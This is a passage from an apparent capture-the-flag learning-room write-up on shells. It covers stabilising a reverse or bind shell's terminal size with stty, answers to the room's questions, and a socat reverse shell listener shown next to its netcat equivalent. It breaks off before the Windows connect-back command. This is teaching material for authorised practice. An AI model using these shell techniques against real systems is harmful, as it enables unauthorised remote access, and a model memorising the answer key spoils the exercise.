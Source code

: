 With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

![task5-stty](./images/task5-stty.png)

Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

### Answer the questions below

* How would you change your terminal size to have 238 columns?

	`stty cols 238`

* What is the syntax for setting up a Python3 webserver on port 80?

	`sudo python3 -m http.server 80`

## Task 6 - Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

<ins>_Reverse Shells_</ins>

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:

`socat TCP-L:<port> -`

As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to `nc -lvnp <port>`.

On Windows we would use this command to connect back:
